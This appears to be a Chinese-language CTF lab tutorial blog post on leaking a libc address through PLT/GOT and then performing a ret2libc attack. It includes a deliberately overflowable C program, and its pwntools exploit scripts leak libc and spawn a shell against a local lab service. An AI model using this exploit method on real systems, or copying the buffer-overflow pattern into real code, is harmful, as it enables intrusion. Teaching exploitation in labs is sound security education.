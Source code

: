 ```yaml
---
title: "Day16－PLT to Libc"
date: 2024-09-16
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

昨天我們示範了如何在沒有拿到 libc base 且程式是動態鏈結的情況下，透過 PLT 拿到 shell。不過那是因為程式一開始就有呼叫一次 `system` 函式，使得在編譯過程中產生了 GOT 和 PLT。如果沒有呼叫過該函式，是不是就無法被攻擊了呢？其實不是，因為我們可以透過 PLT 和 GOT 嘗試取得程式中的 libc base，並進行 ret2libc 攻擊。

## plt & got leak libc

如之前所提，GOT 會存儲外部函式的地址。即便我們不知道具體的 libc base，也可以將某些函式的 GOT 地址作為參數，傳遞給可以輸出資訊的函式，如 `puts`，來洩露 libc 地址並計算出 libc base。具體上傳遞參數的過程會像這樣：`puts(got_address)`。

這裡需要注意，若程式的 RELRO 是 Partial，我們需要函式的地址被解析完成後才能使用。有些讀者可能會問：既然我們不知道 libc base，那要如何呼叫 `puts` 呢？實際上，我們可以直接呼叫 PLT，因為 PLT 會自動從 GOT 中取出地址，也就是 libc 內部的函式地址。如此一來，我們就能成功呼叫 `puts` 並取得 libc base，進而進行簡單的 ret2libc 攻擊。

## Lab

查看以下原始碼：

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void pop_rdi(){
    __asm__("pop %rdi; ret;");
}

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char message[0x10];
    puts("Welcome to challenge!");
    puts("Leave a message: ");
    read(0, message, 0x100);
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/ret2plt_adv.c -o ./ret2plt_adv/share/ret2plt_adv -fno-stack-protector -no-pie
```

## writeup

這次的程式與前幾天的不同，分析後我們發現有一個 `read` 的 overflow，可以用來控制程式的執行流。不過因為是動態鏈結，gadgets 可能不足以構造完整的 ROP chain，所以我們需要從 libc 中尋找 gadgets。然而，要使用 libc，必須先泄露 libc base，但程式中沒有像格式化字串或 out-of-bounds (OOB) 等可直接泄露 libc 的漏洞。幸運的是，我們可以控制程式的執行流，並且程式內有 `puts` 函式，因此我們可以將某個函式的 GOT 地址作為參數傳入 `puts`，取得該函式的 libc 地址，進而計算出 libc base。

有了 libc base 後，我們可以再一次輸入並觸發 overflow，完成 ret2libc 攻擊。值得一提的是，我特地加了一個 `pop rdi; ret`，以便傳遞參數。

所以我們要確認以下資訊

- `puts` 的 PLT 地址
- 已被解析的某個函式的 GOT 地址
- `main` 的地址（泄露 libc 後返回重新輸入）

這些資訊可以用 `objdump` 輕鬆找出。

![image](/images/iron2024/day16_image1.png)

我們來測試一下是否能成功泄露 libc 地址，並接上 gdb 計算 offset。

在測試之前，因為要針對 libc，所以需要更換 libc，具體操作可參照[Day13－How to change libc & ret2libc](https://ithelp.ithome.com.tw/articles/10359126)

需要控制流的 padding 為 `0x10+0x8=0x18`。

![image](/images/iron2024/day16_image2.png)

接下來，使用以下 script 進行測試：

```python
from pwn import *

r = process('./ret2plt_adv')
context.terminal = ['tmux','splitw','-h']
gdb.attach(r)
setvbuf_got = 0x404010
puts_plt = 0x0000000000401030
pop_rdi = 0x000000000040114a
main = 0x00000000040114f
payload = b'A' * (0x10 + 8) + p64(pop_rdi) + p64(setvbuf_got) + p64(puts_plt) + p64(main)
r.sendlineafter('Leave a message: ', payload)
libc = u64(r.recvuntil(b'\x7f').strip().ljust(8, b'\x00'))
print(hex(libc))
r.interactive()
```

我們可以成功泄露一些資訊，並確認 offset 為 `0x815f0`。

![image](/images/iron2024/day16_image3.png)

![image](/images/iron2024/day16_image4.png)

接下來，將泄露到的地址減去 `0x815f0` 來測試，發現確實成功泄露到 libc base。

![image](/images/iron2024/day16_image5.png)

由於程式最後接回了 `main`，因此有再次輸入的機會，此時就可以進行 ret2libc，具體步驟可參考 [Day13－How to change libc & ret2libc](https://ithelp.ithome.com.tw/articles/10359126) 的步驟

完整 exploit：

```python
from pwn import *

# r = process('../ret2plt_adv/share/ret2plt_adv')
r = remote('127.0.0.1',10008)
setvbuf_got = 0x404010
puts_plt = 0x0000000000401030
pop_rdi = 0x000000000040114a
main = 0x00000000040114f
payload = b'A' * (0x10 + 8) + p64(pop_rdi) + p64(setvbuf_got) + p64(puts_plt) + p64(main)
r.sendlineafter('Leave a message: ', payload)
libc = u64(r.recvuntil(b'\x7f').strip().ljust(8, b'\x00')) - 0x815f0
log.info('Libc: ' + hex(libc))
system = libc + 0x50d70
bin_sh = libc + 0x1d8678
ret = pop_rdi + 1
payload = b'A' * (0x10 + 8) + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
r.sendlineafter('Leave a message: ', payload)
r.interactive()
```

solved！！

![image](/images/iron2024/day16_image6.png)
